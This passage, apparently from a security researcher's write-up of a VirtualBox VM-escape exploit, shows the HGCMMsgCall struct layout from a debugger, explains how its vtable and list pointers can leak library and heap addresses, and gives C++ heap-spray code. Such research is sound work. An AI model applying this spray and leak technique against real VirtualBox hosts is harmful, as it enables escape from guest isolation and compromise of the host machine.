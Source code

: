 Here's how it works. The guest inside VirtualBox will have to install additional drivers, a.k.a the guest additions. When the guest wants to use one of the service above, it will send a message to the host through IO port, the message is represented by the `HGCMMsgCall` struct.

```
0:035> dt VBoxC!HGCMMsgCall
   +0x000 __VFN_table : Ptr64 
   +0x008 m_cRefs          : Int4B
   +0x00c m_enmObjType     : HGCMOBJ_TYPE
   +0x010 m_u32Version     : Uint4B
   +0x014 m_u32Msg         : Uint4B
   +0x018 m_pThread        : Ptr64 HGCMThread
   +0x020 m_pfnCallback    : Ptr64     int 
   +0x028 m_pNext          : Ptr64 HGCMMsgCore
   +0x030 m_pPrev          : Ptr64 HGCMMsgCore
   +0x038 m_fu32Flags      : Uint4B
   +0x03c m_rcSend         : Int4B
   +0x040 pCmd             : Ptr64 VBOXHGCMCMD
   +0x048 pHGCMPort        : Ptr64 PDMIHGCMPORT
   +0x050 pcCounter        : Ptr64 Uint4B
   +0x058 u32ClientId      : Uint4B
   +0x05c u32Function      : Uint4B
   +0x060 cParms           : Uint4B
   +0x068 paParms          : Ptr64 VBOXHGCMSVCPARM
   +0x070 tsArrival        : Uint8B
```

This object is perfect because:

- It has a `vtable` pointer -> We can leak a library address
- It has `m_pNext` and `m_pPrev`, which points to next and previous `HGCMMsgCall` in a doubly linked list -> Also good, can be used to leak heap address.

Now I will spray the heap with a lot of `HGCMMsgCall`. This code is just copied from [Sauercl0ud blog](https://secret.club/2021/01/14/vbox-escape.html):

```cpp
void spray()
{
    int rc;
    for (int i = 0; i < 64; ++i)
    {
        int32_t clientId;
        rc = hgcm_connect("VBoxGuestPropSvc", &clientId);
        for (int j = 0; j < 16 - 1; ++j)
        {
            char pattern[0x70];
            char out[2];
            rc = wait_prop(clientId, pattern, strlen(pattern) + 1, out, sizeof(out)); // call VBoxGuestPropSvc HGCM service, this will allocate a HGCMMsgCall
        }
    }
}
```
